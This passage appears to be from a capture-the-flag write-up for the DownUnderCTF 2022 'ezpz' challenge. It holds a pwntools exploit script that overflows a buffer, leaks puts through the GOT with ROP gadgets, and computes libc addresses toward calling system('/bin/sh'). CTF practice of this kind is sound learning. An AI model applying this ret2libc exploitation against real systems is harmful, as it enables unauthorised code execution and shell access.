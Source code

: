 Calculate the `libc` address based on the offset from the `libc` file and calculate the address of "`/bin/sh`" and system

Second Stage:
0. Puzzle cells + padding to 232
1. pop address of "`/bin/sh`" into rdi
2. ret gadget (to appease MOVAPS in `do_system`)
3. ret to system PLT  --> system("`/bin/sh`")

```python
from pwn import *

LOCAL = False
libc = ""


if LOCAL:
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
    p = process("./ezpz")
else:   
    p = remote("2022.ductf.dev", 30005)
    libc = ELF("libc-2.35.so")


# gadgets
pop_rdi = 0x00000000004015d3
pop_rsi_r15 = 0x00000000004015d1
ret = 0x00000000004015d4


elf = ELF("./ezpz")
puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
print("OFFSET : " , puts_offset)
putsPLT = elf.plt['puts']
putsGOT = elf.got['puts']
main_function = 0x00004014A0

#main_plt = elf.symbols['main']


payload = b"0101000000001000000101010000101000000001000000000101000110100000000100000010101000000100000000100100001010100000001000000010101000101000000000000000101010010101000000000000000001010100010101000000AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload += p64(pop_rdi) + p64(putsGOT) + p64(putsPLT)
print("putsGOT : ",hex(putsGOT))
payload += p64(main_function)



p.sendline(payload)
leak = (p.recvrepeat(0.6))
print("ORIGINAL LEAK",leak)
leak = u64(leak.split(b"\n\n")[1][:8].ljust(8,b'\x00'))
print("LEAK : " , hex(leak))

libc_base =( leak - puts_offset) & 0xffffffffffff
system_address = libc_base+  system_offset


print("leaked puts libs : " , hex(leak))
print("puts_offset : " , hex(puts_offset))
print("libc_base : " , hex(libc_base))
print("Leaked system libc address : " , hex(system_address))
binsh_offset = next(libc.search(b"/bin/sh"))
```